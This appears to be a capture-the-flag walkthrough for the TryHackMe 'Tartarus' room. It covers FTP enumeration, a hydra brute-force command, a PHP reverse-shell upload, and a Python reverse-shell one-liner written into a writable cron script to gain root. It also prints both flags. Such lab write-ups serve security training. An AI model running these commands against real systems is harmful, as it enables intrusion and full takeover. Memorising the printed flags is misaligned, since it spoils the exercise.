


# Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

### SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

### ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 
  we get /sUp3r-s3cr3t directory 

 
Go to robots.txt 
  User-Agent: *
  Disallow : /admin-dir

  I told d4rckh we should hide our things deep.
Go to /admin-dir

  Download the files using :
  wget http://10.10.13.146/admin-dir/credentials.txt
  wget http://10.10.13.146/admin-dir/userid
  
  u will get to files
  user id and credentials.txt
  
 There is a login page and we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.

  use hydra bruteforce /sUp3r-s3cr3t
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

     HYDRA IMAGE

    After logging in we get into home.php where we can upload files. Upload the script for reverse shell here.

    Start the listener on your machine

    Uploading the reverse shell php script on the page 
    Download the script from here:

    http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  Go to home/d4rckh 
  You got the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 
 ### PrivEsc
 Now let's hunt for the root flag. Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
     
     printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.18.39",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
 And finally we have our root shell
 

    Root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
